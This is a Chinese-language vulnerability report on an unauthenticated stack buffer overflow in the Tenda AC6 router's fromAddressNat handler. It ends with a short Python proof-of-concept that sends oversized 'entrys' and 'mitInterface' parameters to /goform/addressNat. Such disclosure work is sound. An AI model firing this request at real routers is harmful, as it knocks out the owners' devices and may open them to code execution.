




# CVE-2023-26976_tenda_AC6_stack_overflow

## 漏洞描述

### 编号

无
CVE-2023-25234 记录了 Tenda AC500 V2.0.1.9(1307)存在此问题，Tenda AC6 V15.03.05.19(latest) 也存在该问题，但暂时无CVE编号
>CVE-2023-25234 Tenda AC500 V2.0.1.9(1307) is vulnerable to Buffer Overflow in function fromAddressNat via parameters entrys and mitInterface.

### 设备信息&固件版本号

**Tenda AC6:**
v15.03.05.09_multi ~ V15.03.05.19(latest)
goahead framework

### 漏洞类型

DoS

### 危害

可访问路由器的攻击者无需凭证即可执行远程拒绝服务攻击

## 复现流程

### 复现设备&固件

同CVE-2023-26976_tenda_AC6_stack_overflow

### 固件下载&仿真

同CVE-2023-26976_tenda_AC6_stack_overflow

### 漏洞分析

漏洞点在httpd服务中的fromAddressNat()
路由/goform/addressNat
将用户输入的`entrys/mitInterface`参数传入`v9/v8`，但使用`sprintf(s, "%s;%s", v9, v8)`时没有长度限制，又`s`为`char s[512]`，即在`sprintf()`时存在溢出


>There is a stack-based buffer overflow vulnerability in function `fromAddressNat`.
In function `fromAddressNat` it reads 2 user provided parameters `entrys` and `mitInterface` into `v9` and `v8`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.

So by requesting the page `/goform/addressNat`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

### 漏洞利用

get请求触发溢出

```python
import requests

IP = "192.168.2.199" # 路由器ip
url = f"http://{IP}/goform/addressNat?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```


